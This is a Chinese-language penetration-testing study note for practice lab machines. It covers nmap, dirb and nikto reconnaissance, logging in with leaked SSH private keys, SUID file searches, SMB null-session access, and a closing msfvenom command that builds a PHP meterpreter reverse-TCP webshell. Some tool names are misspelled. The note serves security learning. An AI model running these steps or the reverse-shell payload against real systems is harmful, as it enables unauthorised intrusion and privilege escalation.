 分析探测结果

每一个服务对应计算机的一个端口，用来进行通信。常用端口0~1023，在扫描结果中查找特殊端口

针对特殊端口进行探测，尤其对开发大端口的http服务进行排查



探测大端口的服务

```bash
nmap -sV [ip]
dirb http://[ip]:[port]
ssh -i id_rsa username@ip

find / -perm -4000 2>/dev/null
```

## ssh服务渗透

### 1.信息探测

对于给定ip地址的靶场机器，对其进行渗透测试，首先需要考虑 靶场机器 开放的服务

探测靶场开放的服务与服务版本

```bash
nmap -sV ip
```

探测靶场全部信息

```bash
nmap -A -v ip
```

探测靶场的操作系统类型与版本

nmap -O ip

### 2.分析探测结果

对于SSH服务的22端口的靶场

首先考虑

1. 暴破
2. 私钥泄露（私钥有没有对应的密码、是否能够找到该私钥的用户名）

对于开放http服务的80端口或其他端口的靶场

首先考虑

1. 通过浏览器访问对应的靶场http服务，如http://ip:port
2. 使用dirb探测工具对http的目录进行探测，如dirb http://ip:port/



### 3.挖掘敏感信息

使用浏览器对靶场IP的http服务探测，对页面中展示的内容也要注意，尤其是联系人等信息（很可能就是ssh的用户名信息），递归访问，力争把每一个dirb扫描到的目录页面都访问查看

尤其对robots.txt以及一些目录进行访问，挖掘具备利用价值的信息。对于开方ssh服务的靶场，务必要注意到是否可以寻找到ssh私钥信息（id_rsa）

或利用nikto进行挖掘：

nikto -host [ip]

### 4.利用敏感、弱点信息

对于挖掘到ssh密钥利用

1. 修改id_rsa密钥利用

```bash
chmod 600 id_rsa
```

2. 利用私钥登录服务器

```
ssh -i id_rsa username@ip
```

注意如果id_rsa没有解密密码，可以直接使用，但是如果id_rsa有解密密码，那么就需要进行相应的破解



### 5.扩大战果

登录服务器后，我们应该这样做

1. whoami
2. id 查看当前用户权限
3. 查看根目录寻找flag文件

如果是root权限，那么表明这个靶场就被全部拿下。但是如果不是，就肯定需要提权。一般情况下，flag文件只属于root用户和对应的用户组



### 6.深入挖掘

通过/etc/crontab文件，设定系统定期执行的任务，编辑，需要root权限。不同的用户都可以由不同的定时任务





针对SMB协议弱点分析

1. 针对SMB协议，使用空口令，尝试登陆，并查看敏感信息，get下载查看

```bash
smbclient -L [ip]
smbclient '\\[ip]\share$'
get 敏感文件
```

2. 针对SMB协议远程溢出漏洞进行分析

```bash
searchploit sanba版本号
```



针对http协议弱点分析

1. 浏览器4查看网站
2. 使用dirb nikto探测
3. 寻找突破点，目标登录后台，上传webshell



制作webshell

msfvenom -p php/meterpreter/reverse_tcp lhost= lport= -f raw



webshell

msfconsole